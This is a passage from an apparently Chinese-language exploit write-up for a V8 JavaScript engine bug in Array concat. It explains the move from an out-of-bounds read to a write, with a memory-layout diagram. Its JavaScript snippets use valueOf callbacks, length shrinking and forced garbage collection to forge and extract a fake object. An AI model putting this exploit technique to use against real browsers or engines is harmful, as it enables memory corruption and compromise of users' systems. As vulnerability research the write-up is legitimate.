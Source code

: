 ```js
    dump64(res, 20);
}
```

通过以上利用结合具体调试就可以获得相关内存信息了，具体代码实现在 [`src/exploit.js`](src/exploit.js) 的 `leak` 函数中。

#### 从越界读到越界写

考虑下面这种内存布局：

```sh
        --------------------------------------------
        +               map (elements)             +
        +------------------------------------------+
        +   length          |           0          +
        +------------------------------------------+
        +               elem values                +
        +               ....                       +
        +               ....                       +            
        +               HOLE                       + <----------+
        +               ....                       +            |
        +               ....                       +            |
        +------------------------------------------+            |
        +               map (Array)                +            |
        +------------------------------------------+            |
        +               prototype                  +            |
        +------------------------------------------+            |
        +               elements                   +            |
        +------------------------------------------+            |
        +   length          |           0          +            |
        +------------------------------------------+            |
        +               properties                 +            |
        +------------------------------------------+            |
        +               ...                        +            |
        +------------------------------------------+ Overlap    |
        +       element of another array           + -----------+
        +------------------------------------------+
        +               ...                        +
        --------------------------------------------
```

在按照刚才 leak 时相同的思路触发漏洞时，如果在 gc 过程中已经正好用可控的内容覆盖了上面的空洞，同时这个数组类型为 HOLEY_ELEMENTS（与 leak 中的 HOLEY_DOUBLE_ELEMENTS 不同，包含对象类型的元素），则：

- array 的 length 被修改为 1

- gc 触发，控制 HOLE 的值指向准备好的 `fake_object`

- concat 遍历到 HOLE，进入慢过程，把这个地址当作对象来处理

于是 `fake_object` 就被伪造成功了，不过还得在避免程序 crash 的情况下施展手段把它传出来，为之后的利用创造条件，这里提供一种 `try/catch` 的办法来中途停止 concat，否则它会把之后的内容都视作对象导致程序崩溃：

```js
function overlap() {

    // ...

    Array.prototype[10] = {
        valueOf: function() {
            corrupted_array.length = 1;
            gc();

            print("[SUCCESS] CALLBACK (overlaping)")

            Object.prototype.valueOf = function() {
                // 这里把我们伪造的对象传出来
                g_controlled_arr = this;
```